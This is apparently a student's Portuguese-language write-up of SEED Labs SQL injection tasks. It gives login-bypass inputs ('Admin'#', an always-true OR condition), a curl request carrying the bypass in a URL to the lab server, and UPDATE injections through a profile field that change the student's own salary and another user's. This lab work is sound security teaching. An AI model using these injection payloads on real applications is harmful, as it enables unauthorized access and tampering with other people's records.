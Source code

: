 # Trabalho realizado nas Semana #8 e #9

## **Seed Labs**

## Tarefa 1

```
    mysql> select * from credential where Name = "Alice";
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    | ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    |  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    1 row in set (0.01 sec)

    mysql> 
```

## Tarefa 2
### Tarefa 2.1
Colocando "Admin' OR 'a'='a" no username vai alterar a query fazendo com que a condição seja sempre verdadeira. A query será assim:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin' or 'a'='a' and Password='';
```

![login](images/login.png)

![info](images/details.png)****

Uma alternativa mais simples é colocar "Admin'#" no username, o que fará com que o que vem depois do '#' seja apenas um comentário, o que faz com que a condição seja verdadeira em name = 'Admin'. A nova query será então:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin'#' and Password='';
```

![login2](images/login2.png)

### Tarefa 2.2

http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=

```
    curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=' > index.html
```

abrindo o index.html no browser, obtemos:

![info](images/details2.png)

### Tarefa 2.3

Ataques de injeção SQL que pretendem correr várias queries não funcionam contra MySQL pois, na extensão mysqli no PHP, a mysqli::query() API não permite que várias queries sejam corridas no servidor da base de dados.

## Tarefa 3

### Tarefa 3.1

Primeiro é necessário fazer login. É usada a mesma estratégia da tarefa 2.

![info](images/alice_login.png)

Alterando o input de um dos campos na edição de perfil podemos alterar o nosso salário. Por exemplo, ao colocar "123', salary = 1000000 WHERE EID = 10000;#" no campo do Phone Number, o nosso salário é alterado para 1000000, sabendo que o nosso EID é 10000.

O sql alterado ficará como o seguinte:

```sql
    UPDATE credential SET
    nickname='',
    email='',
    address='',
    Password='',
    PhoneNumber= '123', salary = 1000000 WHERE EID = 10000;#
    WHERE ID=;
```
Como se pode observar pela imagem, o salário foi alterado com sucesso.<br>


![info](images/alice_profile.png)


### Tarefa 3.2

Para alterar o salário do Boby, sabendo que o seu EID é 20000, podemos colocar "123', salary = 1 WHERE EID = 20000;#" no campo do PhoneNumber.


O sql alterado ficará como o seguinte:

```sql
    UPDATE credential SET
    nickname='',
    email='',
    address='',
    Password='',
    PhoneNumber= '123', salary = 1 WHERE EID = 20000;#
    WHERE ID=;
```

![info](images/boby_changed.png)